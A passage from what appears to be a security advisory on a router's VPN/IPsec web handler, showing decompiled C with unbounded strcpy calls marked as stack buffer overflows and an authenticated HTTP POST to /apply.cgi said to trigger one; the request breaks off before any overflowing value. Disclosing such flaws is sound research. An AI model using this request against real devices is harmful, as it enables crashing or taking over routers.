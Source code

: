         strcpy(acStack768,auto_ipsec_enc);
        //stack buffer overflow here
        strcpy(acStack736,auto_ipsec_int);
        //stack buffer overflow here
        pfs_enable = strcmp(ipsec_pfs_enable,"dis");
        if (pfs_enable != 0) {
            local_2d0 = 0x31;
            strcpy(acStack712,ipsec_pfs_group);
            //stack buffer overflow here
        }
        edit_policy = strcmp(exc_stflg,"add");
    }
    else {
        strcpy(acStack664,ipsec_spi_income);
        //stack buffer overflow here
        strcpy(acStack632,ipsec_spi_outgo);
        //stack buffer overflow here
        strcpy(acStack600,manual_ipsec_enc);
        //stack buffer overflow here
        strcpy(acStack584,ipsec_enc_keyin);
        //stack buffer overflow here
        strcpy(acStack456,ipsec_enc_keyout);
        //stack buffer overflow here
        strcpy(acStack328,manual_ipsec_int);
        //stack buffer overflow here
        strcpy(acStack312,ipsec_int_keyin);
        //stack buffer overflow here
        strcpy(acStack184,ipsec_key_keyout);
        //stack buffer overflow here
        edit_policy = strcmp(exc_stflg,"add");
    }
    if (edit_policy == 0) {
        openswan_add_ipsec_policy(acStack1224);
    }
    else {
        iVar1 = strcmp(exc_stflg,"edit");
        if (iVar1 == 0) {
            iVar1 = atoi((char *)ike_selidx);
            openswan_edit_ipsec_policy(iVar1,acStack1224);
        }
    }
    return;
}
{% endhighlight %}

It is possible to trigger one of the stack buffer overflow above with an authenticated request such as the one
below:

```
POST /apply.cgi;session_id=b37f0e917e54a1af0e1d7a0027d9de5d HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://192.168.1.1/apply.cgi;session_id=79f76000d1a3c29cef38c6dd14f25c0e
Content-Type: application/x-www-form-urlencoded
Content-Length: 1812
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

submit_button=vpn_adv_refresh&change_action=&submit_type=&gui_action=Apply&ipsec_enc=aes
128&ipsec_int=sha1&backname=&stflg=add&selidx=0&ipsec_stflg=add&ipsec_selidx=0&ike_stflg
```